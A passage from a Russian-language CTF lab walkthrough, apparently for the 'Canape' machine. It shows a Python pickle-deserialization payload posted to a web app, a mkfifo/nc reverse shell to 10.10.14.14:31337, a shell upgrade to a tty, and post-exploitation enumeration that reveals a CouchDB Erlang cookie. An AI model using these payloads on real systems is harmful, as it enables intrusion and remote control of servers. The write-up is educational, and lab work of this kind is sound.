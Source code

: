 В итоге запустив скрипт:
```text
root@kali:~# python canape_shell.py
POST 200 http://10.10.10.70:80/submit {'quote': "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 31337 >/tmp/f'\np2\ntRp3\n.", 'character': "cposix\nsystem\np1\n(S'c=krusty;"}
POST 500 http://10.10.10.70:80/check {'id': 'a7055ae5d0703e84ea83e69eaef172b2'}
```

Ловим шелл на локальном слушателе и прокачиваем его до tty'я:
```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.70.
Ncat: Connection from 10.10.10.70:54102.

/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@canape:/$ ^Z
[1]  + 24297 suspended  nc -nlvvp 31337
root@kali:~# stty raw -echo; fg 
[1]  + 24297 continued  nc -nlvvp 31337

www-data@canape:/$
www-data@canape:/$ stty cols 2000

www-data@canape:/$ whoami
www-data

www-data@canape:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@canape:/$ uname -a
Linux canape 4.4.0-119-generic #143-Ubuntu SMP Mon Apr 2 16:08:24 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Осмотримся:
```text
www-data@canape:/$ ps auxww
...
root        604  0.0  0.0   4240   660 ?        Ss   13:48   0:00 runsv couchdb
root        606  0.0  0.0   4384   680 ?        S    13:48   0:00 svlogd -tt /var/log/couchdb
...
homer       607  0.7  3.2 649340 32732 ?        Sl   13:48   0:05 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
...


www-data@canape:/$ netstat -anlpo | grep LIST
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
...
tcp        0      0 127.0.0.1:5984          0.0.0.0:*               LISTEN      -                off (0.00/0/0)
tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      -                off (0.00/0/0)
tcp        0      0 0.0.0.0:4369            0.0.0.0:*               LISTEN      -                off (0.00/0/0)
...
```
